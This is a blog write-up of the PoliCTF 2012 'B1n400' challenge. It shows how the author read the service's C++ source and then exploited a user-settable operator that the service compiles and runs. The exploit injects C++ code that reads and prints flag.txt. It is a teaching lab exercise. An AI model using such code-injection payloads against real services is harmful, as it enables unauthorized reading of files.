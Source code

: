 ```yaml
---
layout: post
title: "B1n400"
date: 2012-11-23 01:00:00
ctf: PoliCTF 2012
author: Rogdham
---
```

  

## Introduction

I took part in the [PoliCTF](http://polictf.it/), which lasted 24h starting from November 17th, 2012.

This was the first CTF organised by the students from Politecnico di Milano (hence the name), and it was also the first CTF I took part in.

![Identi.ca notice by @Rogdham: &quot;Your submission of flag [â¦] has earned 440 points.&quot;  My first CTF ever, and I scored! So happy! #success #poliCTF](http://www.rogdham.net/media/polictf_identica_notice.png)

I managed to capture the flag for the B1n400 challenge (with some help from my team members), and here is how I did it.

## B1n400

### Ready

The description of this challenge was pretty short:

> Alien Technologies. `challenge@alien.challenges.polictf.it:16000`

First things first, connect to the server. It takes no time to discover that this is a SSH server running on port 16000. And you probably want to log in as user `challenge`. The private key you sent to the organisers gets the job done quite easily.

Instead of a shell prompt, a few characters appears when you connect:


    loS ..........
    ghItlh pIqaD (a..y)


It seems that this server speaks Kligon. At least, this is what I found doing a quick search on these characters. At that point, using an online dictionary is really useful, especially if you are not fluent in Kligon.

Here, it asks to wait first, and then to write some Klingon command.

### Set ...

Then, you try random command, using letters from `a` to `y`. Or should I say using Kligon alphabet? There are not so many letters in that alphabet, so `ch` is probably your third attempt.

	loS ..........
    ghItlh pIqaD (a..y)
    ch
    ghItlh teywI' pong (main.cpp, ...)

You are asked to write a file name here, and it suggests `main.cpp`. So you try `ch main.cpp` but it does not work. After a while, you figure out that you should not put the file name directly after `ch`, but on the next line and you get the listening of `main.cpp`.

{% highlight cpp %}
#include "prompt.h"
#include <iostream>
#include <cstdlib>
#include <unistd.h>
#include <pthread.h>


using namespace std;

void *timeout(void*)
{
  sleep(60);
  cout << "Dor" << endl;
  exit(0);
}

int main()
{
  pthread_t t;
  pthread_create(&t, 0, timeout, 0);
  cout << "loS ";
  cout.flush();
  for(int i=0; i < 10; i++)
  {
    sleep(1);
    cout << '.';
    cout.flush();
  }
  cout << endl;
  Prompt prompt;
  prompt.run();
  return 0;
}
{% endhighlight %}

Nothing interesting here, except `#include "prompt.h"`. Hence, the next thing you do is using `ch` to get the content of the files `prompt.h` and `prompt.cpp`. And it starts to be interesting. Here is the snippet corresponding to the `ch` command:

{% highlight cpp %}
void Prompt::dump()
{
  cout << "ghItlh teywI' pong (main.cpp, ...)" << endl;
  string name;
  getline(cin, name);
  bool ok = false;
  if(name == "main.cpp") ok = true;
  if(name == "prompt.h") ok = true;
  if(name == "prompt.cpp") ok = true;
  if(name == "data.h") ok = true;
  //if(name == "flag.txt") ok = true;
  if(ok == false)
  {
      cout << "Qagh" << endl;
      return;
  }
  string line;
  int i = 1;
  ifstream in(name.c_str());
  while(getline(in, line)) cout << setw(3) << i++ << " " << line << endl;
}
{% endhighlight %}

Of course, you will download the `data.h` file using `ch`. But one thing is more important: you know that you are looking for a way to get the content of the `flag.txt` file!

But wait, there are more commands available! Now that you have access to a part of the source code, things are getting easier. The `gh` command enables you to put a float on a stack, and `tlh` to apply an operator on the content of the stack (if there are at least 3 elements in it) and get the result back. The list of operators is in the file `prompt.h`:

{% highlight cpp %}
class Prompt
{
  public:
    Prompt()
    {
      op[0]="result=mean+variance";
      op[1]="result=mean+2*variance";
      op[2]="result=mean+3*variance";
      op[3]=";";
    }

  void run();

  private:
  	bool execute(const std::string& command);

  	void dump();

  	void add();

  	void addOp();

  	void get();

  	std::string op[4];
  	Data<float> data;
};
{% endhighlight %}

Finally, the `ng` command allows you to define `op[3]` up to 80 characters.

Let's try what happened if you use `result = 6 * 7` as the operator:

	loS ..........
	ghItlh pIqaD (a..y)
	ng
	ghItlh Qap
	result=6*7
	ghItlh pIqaD (a..y)
	gh
	ghItlh De'
	1
	ghItlh pIqaD (a..y)
	gh
	ghItlh De'
	1
	ghItlh pIqaD (a..y)
	gh
	ghItlh De'
	1
	ghItlh pIqaD (a..y)
	tlh
	ghItlh Qap (0..3)
	3
	1 0 42
	ghItlh pIqaD (a..y)
	Dor

Yeah, it gets executed, and you got `42` back!

### Go!

Exploit time! Remember that you want to get the content of `flag.txt` back. At that point, since I don't know C++, I tried different things. With some very beautiful error messages from times to timesâ¦ which confirm that some JIT compilation is done.

![Opps, faillure](http://www.rogdham.net/media/polictf_exploit_fail.png)

Anyway, after a few tries your exploit succeed, and you get the flag back!

	loS ..........
    ghItlh pIqaD (a..y)
    ng
    ghItlh Qap
    string l;ifstream in("flag.txt");while(getline(in,l)) cout<<l
    ghItlh pIqaD (a..y)
    gh
    ghItlh De'
    1
    ghItlh pIqaD (a..y)
    gh
    ghItlh De'
    1
    ghItlh pIqaD (a..y)
    gh
    ghItlh De'
    1
    ghItlh pIqaD (a..y)
    tlh
    ghItlh Qap (0..3)
    3
    Well done, you found the flag:jbvenvinvpek2envi2nThis challenge is powered by cling: http://root.cern.ch/drupal/content/cling1 0 0
    ghItlh pIqaD (a..y)
    Dor

Flag: `jbvenvinvpek2envi2n`.

## Conclusion

That challenge was not really technical, since I managed to do it without knowing a word of Kligon or C++. However, it was fun, and scoring makes everyone happy in your team!

    00:16:15 @csn         top work
    00:16:22 @csn         AFiniteNumberOfMonkeys: 440points
    00:16:22 +Rogdham     Your submission of flag *** has earned 440 points.
    00:16:27 +Rogdham     heah\o/
    00:16:27 @csn         BIRMINGHAM WOO
    00:16:27 gardiner90   AFiniteNumberOfMonkeys: 440points
    00:16:34 Abstract_Tom Well played \o/
    00:16:36 +boxcar      Woo :D
    00:16:39 +Rogdham     youhouuuuuuuu
    00:16:42 +boxcar      Heroic!
    00:16:43 gardiner90   we are now 8th out of 180!!


Here is the final result of our team. See the 440 points? ;-)

![Final ranking](http://www.rogdham.net/media/polictf_ranking.png)

Many thanks to the AFiniteNumberOfMonkeys team members!